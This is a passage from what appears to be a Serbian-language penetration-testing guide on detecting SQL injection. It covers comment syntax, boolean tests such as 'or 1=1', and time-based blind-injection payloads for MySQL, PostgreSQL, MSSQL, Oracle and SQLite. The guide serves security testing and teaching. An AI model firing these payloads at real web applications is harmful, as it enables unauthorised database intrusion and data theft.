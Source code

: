 ```sql

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```

### Potvrda pomoću logičkih operacija

Pouzdan način potvrde ranjivosti SQL ubacivanja uključuje izvršavanje **logičke operacije** i posmatranje očekivanih rezultata. Na primer, GET parametar poput `?username=Peter` koji daje isti rezultat kada se izmeni u `?username=Peter' or '1'='1` ukazuje na ranjivost SQL ubacivanja.

Slično tome, primena **matematičkih operacija** služi kao efikasna tehnika potvrde. Na primer, ako pristupanje `?id=1` i `?id=2-1` proizvodi isti rezultat, to ukazuje na SQL ubacivanje.

Primeri koji demonstriraju potvrdu logičke operacije:

```
page.asp?id=1 or 1=1 -- results in true
page.asp?id=1' or 1=1 -- results in true
page.asp?id=1" or 1=1 -- results in true
page.asp?id=1 and 1=2 -- results in false
```

Ova lista reči je napravljena kako bi se pokušalo **potvrditi SQL ubacivanje** na predloženi način:

{% file src="../../.gitbook/assets/sqli-logic.txt" %}

### Potvrđivanje pomoću vremena

U nekim slučajevima **nećete primetiti nikakvu promenu** na stranici koju testirate. Stoga, dobar način da **otkrijete slepo SQL ubacivanje** je da naterate bazu podataka da izvrši radnje koje će **uticati na vreme** potrebno za učitavanje stranice.\
Stoga, dodajemo u SQL upit operaciju koja će dugo trajati da se izvrši:

```
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```
